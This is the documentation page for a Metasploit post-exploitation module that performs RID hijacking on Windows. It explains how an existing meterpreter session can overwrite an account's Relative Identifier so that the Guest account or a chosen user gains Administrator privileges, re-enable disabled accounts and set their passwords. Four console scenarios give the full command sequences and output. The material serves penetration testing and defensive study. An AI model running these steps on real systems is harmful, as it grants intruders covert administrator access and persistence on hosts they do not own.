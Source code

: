 # Windows RID Hijacking with Metasploit

This module will create an entry on the target by modifying some properties of an existing account. It will change the account attributes by setting a Relative Identifier (RID), which should be owned by one existing account on the destination machine.

Taking advantage of some Windows Local Users Management integrity issues, this module will allow to authenticate with one known account credentials (like GUEST account), and access with the privileges of another existing account (like ADMINISTRATOR account), even if the spoofed account is disabled.

By using a `meterpreter` session against a Windows host, the module will try to acquire _**SYSTEM**_ privileges if needed, and will modify some attributes to hijack the permissions of an existing local account and set them to another one.

## Vulnerable Software

This module has been tested against:

- Windows XP, 2003. (32 bits)
- Windows 8.1 Pro. (64 bits)
- Windows 10. (64 bits)
- Windows Server 2012. (64 bits)

This module was not tested against, but may work on:

- Other versions of windows (x86 and x64).

## Options

- **GETSYSTEM**: Try to get _**SYSTEM**_ privileges on the victim. Default: `false`

- **GUEST_ACCOUNT**: Use the _**GUEST**_ built-in account as the destination of the privileges to be hijacked. Set this account as the _hijacker_. Default: `false`.

- **SESSION**: The session to run this module on. Default: `none`.

- **USERNAME**: Set the user account (_SAM Account Name_) of the victim host which will be the destination of the privileges to be _hijacked_. Set this account as the _hijacker_. If **GUEST_ACCOUNT** option is set to `true`, this parameter will be ignored if defined. Default: `none`.

- **PASSWORD**: Set or change the password of the account defined as the destination of the privileges to be hijacked, either _**GUEST**_ account or the user account set in **USERNAME** option. Set password to the _hijacker_ account. Default: `none`.

- **RID**: Specify the RID number in decimal of the _victim account_. This number should be the RID of an existing account on the target host, no matter if it is disabled (i.e.: The RID of the _**Administrator**_ built-in account is 500). Set the RID owned by the account that will be _hijacked_. Default: `500`

## Scenarios
### Assigning Administrator privileges to Guest built-in account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set SESSION 1
SESSION => 1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[*] Account is disabled, activating...
[+] Target account enabled
[*] Overwriting RID
[+] The RID 500 is set to the account Invitado with original RID 501
[*] Post module execution completed
```
#### Results after login in as the Guest account.

![guest_account](https://user-images.githubusercontent.com/14118912/36490462-4bf84d68-16f6-11e8-811c-bf2d8c42b93d.PNG)

### Assigning Administrator privileges to local custom account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 500 is set to the account testuser with original RID 1002
[*] Post module execution completed
```
#### Results after login in as the _testuser_ account.
![testuser](https://user-images.githubusercontent.com/14118912/36490561-837bd2f0-16f6-11e8-8dc6-53283bb4d9ea.PNG)

### Assigning custom privileges to Guest built-in account and setting new password to Guest.
```
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set RID 1002
RID => 1002
msf post(rid_hijack) > set PASSWORD Password.1
PASSWORD => Password.1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account Invitado with original RID 501
[*] Setting Invitado password to Password.1
[*] Post module execution completed
```
### Assigning custom privileges to local custom account and setting new password to custom account.
```
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > set PASSWORD Password.2
PASSWORD => Password.2
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account testuser with original RID 1002
[*] Setting testuser password to Password.2
[*] Post module execution completed
```

## References

[CSL LABS: RID Hijacking on Windows](http://csl.com.co/rid-hijacking/)
